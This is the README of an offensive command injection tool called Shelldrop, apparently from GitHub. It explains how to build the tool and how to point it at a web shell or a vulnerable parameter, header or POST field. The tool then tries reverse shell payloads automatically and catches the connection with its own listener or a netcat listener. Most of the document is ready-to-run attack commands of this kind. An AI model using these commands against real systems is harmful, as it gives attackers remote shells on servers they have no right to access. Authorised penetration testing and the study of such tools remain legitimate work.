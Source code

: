 # Shelldrop

A command injection tool that leverages an injection point by automatically testing for working reverse shell payloads.

Shelldrop works by injecting payloads into the provided `SHELLDROP` keyword/placeholder.

**Features:**

- Configurable injection point
- Automatic payload detection
- Built-in listener
- Flexible configuration

![til](./demo/demo.gif)

## Build

```bash
git clone https://github.com/shhrew/shelldrop
cd shelldrop
go build -o shelldrop
```

## Usage

```bash
usage: shelldrop [-h|--help] -l|--lhost "<value>" -p|--lport <integer>
                 [-P|--payload "<value>"] -u|--url "<value>" [-X|--method
                 (GET|POST|PUT|PATCH|DELETE)] [-d|--data "<value>"]
                 [-H|--header "<value>" [-H|--header "<value>" ...]]
                 [--no-listener] [--no-color]

                 A command injection tool that automatically tests for working
                 reverse shell payloads.

[*] = Asterisked arguments can contain the SHELLDROP injection keyword

Arguments:

  -h  --help         Print help information
  -l  --lhost        The listen address
  -p  --lport        The listen port
  -P  --payload      Specific payload to use
  -u  --url          The target url [*]
  -X  --method       The request method. Default: GET
  -d  --data         POST data [*]
  -H  --header       Header "Name: Value" pairs, can be used multiple times [*]
      --no-listener  Disable the built-in listener
      --no-color     Disable color output
```

## Examples

#### URL Injection
```bash
shelldrop -l 127.0.0.1 -p 7331 -u "http://localhost/shell.php?cmd=SHELLDROP"
```

#### Using Specific Payload
```bash
shelldrop -l 127.0.0.1 -p 7331 -u "http://localhost/shell.php?cmd=SHELLDROP" -P bash_tcp_1
```

#### Post Data Injection
```bash
shelldrop -l 127.0.0.1 -p 7331 -u "http://localhost/shell.php" -X POST -d "vuln_param=SHELLDROP"
```

#### Header Injection
```bash
shelldrop -l 127.0.0.1 -p 7331 -u "http://localhost/shell.php" -H "User-Agent: SHELLDROP"
```

#### Using External Listener
```bash
# Start your own listener first
nc -lvp 4444

# Run shelldrop with built-in listener disabled
shelldrop -l 127.0.0.1 -p 7331 -u "http://localhost/shell.php?cmd=SHELLDROP" --no-listener
```